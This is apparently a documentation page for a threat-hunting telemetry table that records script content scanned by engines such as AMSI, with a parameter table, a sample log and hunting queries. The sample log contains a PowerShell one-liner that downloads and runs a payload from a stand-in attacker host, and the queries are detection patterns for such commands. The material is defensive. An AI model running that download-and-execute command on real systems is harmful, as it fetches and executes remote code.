 ## ScriptControlScanInfo Table: Script Content Event

### 1. Table Name
**ScriptControlScanInfo**

---

### 2. Table Usage
This event provides the content of a script that was scanned by a script control engine, such as the Antimalware Scan Interface (AMSI) on Windows. This is a powerful event for threat hunting as it captures the actual script content at the time of execution, which helps in identifying malicious, fileless, or obfuscated attacks that might otherwise be missed.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ScriptContent | The full text content of the script that was scanned. | All |
| ScriptContentName | The name or identifier for the script content, if available. | macOS, Linux |
| ScriptContentSource | The source of the script content, such as from a file, the command line, or an interactive session. | Linux, Windows |

---

### 4. Sample Log Example

```json
{
  "ScriptContent": "IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/payload.ps1](http://evil.com/payload.ps1)')",
  "ScriptContentName": "/tmp/run.sh",
  "ScriptContentSource": "1"
}
```

---
### 5. Example Queries
```xql
// Find all script control scan events
event_simpleName=ScriptControlScanInfo

// Hunt for specific keywords within the script content
event_simpleName=ScriptControlScanInfo ScriptContent="*DownloadString*" OR ScriptContent="*Invoke-Expression*"

// Find scripts that originated from the command line
event_simpleName=ScriptControlScanInfo ScriptContentSource=2

// Look for scripts that have a specific name
event_simpleName=ScriptControlScanInfo ScriptContentName="*malicious.ps1"
```
---
